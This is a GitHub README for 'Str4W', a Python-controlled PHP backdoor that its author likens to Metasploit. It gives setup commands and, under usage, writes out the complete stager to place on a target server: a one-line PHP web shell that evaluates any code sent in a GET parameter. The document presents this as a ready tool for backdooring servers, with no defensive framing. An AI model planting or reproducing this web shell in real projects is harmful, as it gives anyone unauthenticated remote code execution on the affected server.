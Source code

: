 # Str4W
> A command line PHP backdoor with the simplest stager ever. 

It's a multi functional PHP backdoor (similar to Metasplot to some extent) that uses a very small stager to make powerful things.

![](header.png)

## Installation

This application has been developed with Python 3.7.9 (recommended).
Although, it should work with previous (and future probably) versions of python (> 3.6).

Windows:
   - `pip install -r requirements.txt` to install the required dependencies.
   - `python main.py` to run the application.
   
Linux:
   - `pip3 install -r requirements.txt` to install the required dependencies.
   - `python3 main.py` to run the application.

## Usage example

The CLI is pretty straightforward. The commands are documented, so the user can get a description by using `help <command>`.  
For a complete list of commands, please use `help`.  

Although the interface is kinda user-friendly, you have to place the stager onto the target server.  
Don't worry, it is as simple as placing a PHP file with the following code inside: `<?php eval($_GET['c']); ?>`.  
Easy as that. 

## Release History

* 0.0.1
    * Work in progress

## Meta

Zeta314 – [@Zeta314](https://github.com/Zeta314)

Distributed under the GPL3.0 license. See ``LICENSE`` for more information.

[https://github.com/Zeta314/Str4W](https://github.com/Zeta314/)

## Contributing

1. Fork it (<https://github.com/Zeta314/Str4W/fork>)
2. Create your feature branch (`git checkout -b feature/fooBar`)
3. Commit your changes (`git commit -am 'Add some fooBar'`)
4. Push to the branch (`git push origin feature/fooBar`)
5. Create a new Pull Request
